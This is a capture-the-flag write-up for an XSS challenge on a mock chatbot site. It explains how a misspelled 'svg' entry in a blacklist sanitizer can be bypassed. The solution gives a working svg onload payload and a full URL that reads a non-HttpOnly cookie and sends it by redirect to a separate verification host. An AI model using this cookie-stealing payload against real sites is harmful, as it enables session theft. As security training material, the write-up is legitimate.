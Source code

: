 # Mission 1 ~ cross site scripting (XSS)


## Goal and instructions

People are worried [AI](https://web2.chall.necst.it/) will take over humankind. Personally, I think that's all bu****it. Can't even get an image of a bowl of rice without chopsticks...

To validate your solution, please submit an URL belonging to the domain `web2.chall.necst.it`, which, when opened in a browser:
- retrieves the value of cookie `aNrBwXC`, which is is already present in the cookie jar of the browser that will visit your URL (the developers were sloppy, and this cookie is not `HTTPOnly`). Pay attention to the fact that there are multiple cookies in the cookie jar: you need to submit only the value of `aNrBwXC`!
- submits it through a GET request to `https://chall.necst.it/challenges/web2/verify/[PERSONA_CODE]/[cookie]`, where `[cookie]` is the value of the cookie `aNrBwXC`

For example, if `document.cookie` is `aNrBwXC=th1s1ssupersecret`, your payload must perform a `GET` request to: `https://chall.necst.it/challenges/web2/verify/[PERSONA_CODE]/th1s1ssupersecret`.

If you are encountering issues with your payload, please notice that the administrators' browser is already logged in to https://chall.necst.it/, and that it actually needs to be logged in to submit a valid solution. Basically, you are also exploiting an intentional CSRF vulnerability in https://chall.necst.it/


## Web app structure

The website is structured as [ChatGPT](https://chatgpt.com).


## Code overview

Examining the source code, it can be seen that the `sanitize(string)` function cleans a string by verifying that it does not contain blacklisted words.
```php
def sanitize(string):
    blacklist = ['script', 'img', 'sgv']

    # Sanitize the name and comment
    # Now they won't be able to break my beautiful website
    while any('<' + word in string for word in blacklist):
        for word in blacklist:
            string = string.replace(f'<{word}', f'&lt;{word}')

    return string
```

If you read the blacklist carefully, you can see that the HTML tag **svg** is misspelled, `sgv`.

```php
blacklist = ['script', 'img', 'sgv']
```

If you write a message on the fake ChatGPT the url has the following structure: `https://web2.chall.necst.it/chat?query=`


## Solution

To complete the exploit, you need to follow the following steps:

1. Determine how to get the required cookie.
   ```javascript
   document.cookie.split(';').map((c) => c.trim()).filter((c) => c.split('=')[0] == 'aNrBwXC').map((c) => c.split('=')[1])[0]
   ```
3. Write the tag with the correct attributes to perform the exploit.
   ```html
   <svg href="" onload="window.location.replace('https://chall.necst.it/challenges/web2/verify/5682/'.concat(document.cookie.split(';').map((c) => c.trim()).filter((c) => c.split('=')[0] == 'aNrBwXC').map((c) => c.split('=')[1])[0]))">
   ```
4. Enter the previously written tag in the message to be sent to the fake ChatGPT, copy the url and enter it into the verification platform.
   ```https
   https://web2.chall.necst.it/chat?query=<svg href="" onload="window.location.replace('https://chall.necst.it/challenges/web2/verify/5682/'.concat(document.cookie.split(';').map((c) => c.trim()).filter((c) => c.split('=')[0] == 'aNrBwXC').map((c) => c.split('=')[1])[0]))">
   ```
